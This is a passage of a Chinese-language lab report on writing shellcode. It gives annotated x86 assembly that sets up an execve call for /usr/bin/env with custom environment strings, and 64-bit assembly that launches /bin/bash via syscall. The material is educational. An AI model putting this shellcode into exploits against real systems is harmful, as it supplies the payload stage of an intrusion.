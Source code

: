 ```assembly
    xor eax, eax                  ; 将 eax 清零（eax = 0），便于写入 0 或作为临时寄存器

    mov [ebx+0x0c], eax           ; 在 ebx+0x0c 写入 4 字节的 0（终止 "/usr/bin/env" 字符串）
    mov [ebx+0x10], ebx           ; 在 ebx+0x10 写入 ebx（argv[0] = 指向 filename 的指针）
    lea ecx, [ebx+0x10]           ; 将 ecx 设为 ebx+0x10（ecx 指向 argv 数组，execve 的第二个参数）

    mov [ebx+0x14], eax           ; 在 ebx+0x14 写入 0（argv[1] = NULL，argv 以 NULL 终止）

    mov [ebx+0x1d], al            ; 在 ebx+0x1d 写入单字节 0（终止第一个 env 字符串，例如把占位 '*' 变为 '\0'）
    mov [ebx+0x23], al            ; 在 ebx+0x23 写入单字节 0（终止第二个 env 字符串）

    lea eax, [ebx+0x18]           ; eax = ebx + 0x18（指向第一个环境字符串的起始）
    mov [ebx+0x24], eax           ; 在 ebx+0x24 写入 eax（envp[0] = 指向第一个 env 字符串的指针）

    lea eax, [ebx+0x1e]           ; eax = ebx + 0x1e（指向第二个环境字符串的起始）
    mov [ebx+0x28], eax           ; 在 ebx+0x28 写入 eax（envp[1] = 指向第二个 env 字符串的指针）

    xor eax, eax                  ; eax = 0（再次清零，用于写入 envp 的 NULL 终结）
    mov [ebx+0x2c], eax           ; 在 ebx+0x2c 写入 0（envp[2] = NULL，envp 数组以 NULL 终止）

    lea edx, [ebx+0x24]           ; edx = ebx + 0x24（edx 指向 envp 数组，execve 的第三个参数）
    mov al, 0x0b                  ; al = 0x0b（设置 eax = 11，sys_execve 的系统调用号）
    int 0x80                      ; 触发系统调用，内核执行 execve( filename=ebx, argv=ecx, envp=edx )

two:
    call one                      ; call one 会把下一条指令地址（即 db 的地址）压栈，然后跳到 one，配合 pop ebx 取得 db 地址
    db '/usr/bin/env****argv****aa=11*bb=22*env1env2****' ; 数据区：放置字符串和占位符，运行时会被就地修改为合法的 C 字符串和指针表

```

![image-20251014163718277](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20251014163718277.png)

# Task 3

对于x64体系结构，调用系统调用是通过系统调用指令完成的，系统调用的前三个参数分别存储在rdi、rsi、rdx寄存器中。

在64-bit shellcode中，以8字节为一组分割命令字符串，将字符串存入rax，再将rax压入栈。

```assembly
section .text
  global _start
_start:
      xor  rdx, rdx            ; 将 rdx 置 0，后面作为 execve 的 envp
      mov al, 'h'              ; 将字符 'h' 装入 al
      push rax                 ; 将 rax压入栈——目的是把 'h' 放在栈上作为字符串结尾的一部分
      mov rax, "/bin/bas"      ; 把 "/bin/bas" 的低 8 字节装到 rax

      push rax                 ; 将 "/bin/bas"压入栈；与上面的 'h' 组合后，栈上顺序变为 "/bin/bas" 接着 'h'，构成 "/bin/bash\0"
      mov rdi, rsp             ; 将 rdi 指向栈顶（filename 指针 -> 指向 "/bin/bash" 字符串）
      
      push rdx                 ; push NULL，作为 argv 的终止（argv[1] = NULL）
      push rdi                 ; push filename 指针，argv[0] = pointer to "/bin/bash"
      mov rsi, rsp             ; rsi = &argv
      
      xor rax, rax             ; 将 rax 清零
      mov al, 0x3b             ; al = 0x3b => rax = 59（sys_execve 的 syscall 编号）
      syscall                  ; 发起系统调用：execve(rdi (filename), rsi (argv), rdx (envp))
```

运行结果：

![image-20251014164701307](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20251014164701307.png)